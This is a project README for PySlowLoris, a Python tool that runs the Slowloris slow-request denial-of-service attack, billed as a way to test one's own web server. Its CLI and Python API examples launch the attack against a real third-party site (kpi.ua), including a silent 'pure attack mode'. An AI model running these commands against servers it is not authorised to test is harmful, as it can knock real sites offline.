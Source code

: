 # PySlowLoris
[![Gitter chat](https://badges.gitter.im/gitterHQ/gitter.png)](https://gitter.im/SlowLoris-dev/Lobby)
[![License](https://img.shields.io/badge/license-MIT%20license-orange.svg)](https://github.com/maxkrivich/SlowLoris/blob/master/LICENSE)
[![Python](https://img.shields.io/badge/python-3.8-blue.svg)](https://github.com/maxkrivich/SlowLoris)
[![Build Status](https://travis-ci.org/maxkrivich/SlowLoris.svg?branch=master)](https://travis-ci.org/maxkrivich/SlowLoris)
[![PyPI version](https://badge.fury.io/py/PySlowLoris.svg)](https://badge.fury.io/py/PySlowLoris)

PySlowLoris is a tool for testing if your web server is vulnerable to slow-requests kind of attacks. The module is based on python-trio for Asynchronous I/O and poetry for dependency management. The idea behind this approach to create as many connections with a server as possible and keep them alive and send trash headers through the connection. Please DO NOT use this in the real attacks on the servers.

More information about the attack you can find [here].

### Installation

#### PyPi

For installation through the PyPI:

```sh
$ pip install pyslowloris==2.0.1
```
This method is prefered for installation of the most recent stable release.


#### Source-code

For installation through the source-code for local development:
```sh
$ git clone https://github.com/[username]/SlowLoris.git
$ cd SlowLoris
$ pip install poetry
$ pyenv install 3.8.3
$ pyenv local 3.8.3
$ poetry env use 3.8.3
```

### Basic Usage

Available command list:

```sh
$ slowloris --help
usage: slowloris [-h] -u URL [-c CONNECTION_COUNT] [-s]

Asynchronous Python implementation of SlowLoris attack

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     Link to a web server (http://google.com) - str
  -c CONNECTION_COUNT, --connection-count CONNECTION_COUNT
                        Count of active connections (default value is 247) - int
  -s, --silent          Ignore all of the errors [pure attack mode] - bool
```

### Docker usage

#### Download image from Docker Hub

Pull the image from [Docker Hub](https://hub.docker.com/r/maxkrivich/pyslowloris/) and run a container:

```bash
$ docker pull maxkrivich/pyslowloris
$ docker run --rm -it maxkrivich/pyslowloris [-h] [-u URL] [-c CONNECTION_COUNT] [-s SILENT]
```

#### Build image from source-code

Also you can build image from [Dockerfile](https://github.com/maxkrivich/SlowLoris/blob/master/Dockerfile) and run a container:

```bash
$ docker build -t pyslowloris .
$ docker run --rm -it pyslowloris [-h] [-u URL] [-c CONNECTION_COUNT] [-s SILENT]
```

**Note:** *Don't forget about 'sudo'!*



### Example of usage

#### How to use module through Python API
Here is an example of usage

```python
from pyslowloris import HostAddress, SlowLorisAttack

url = HostAddress.from_url("http://kpi.ua")
connections_count = 100

loris = SlowLorisAttack(url, connections_count, silent=True)
loris.start()
```

#### How to use module via CLI

The following command helps to use module from command line

```sh
$ slowloris -u http://kpi.ua/ -c 100 -s
```
###### stop execution: Ctrl + C



### Testing

#### Testing with real apache server

```bash
$ docker-compose up web_server -d
$ .....
```

#### Module-tests
```bash
$ make pytest
```

### Bugs, issues and contributing

If you find [bugs] or have [suggestions] about improving the module, don't hesitate to contact me.

### License

This project is licensed under the MIT License - see the [LICENSE](https://github.com/maxkrivich/SlowLoris/blob/master/LICENSE) file for details

Copyright (c) 2017-2020 Maxim Krivich

[here]: <https://en.wikipedia.org/wiki/Slowloris_(computer_security)>
[bugs]: <https://github.com/maxkrivich/SlowLoris/issues>
[suggestions]: <https://github.com/maxkrivich/SlowLoris/issues>
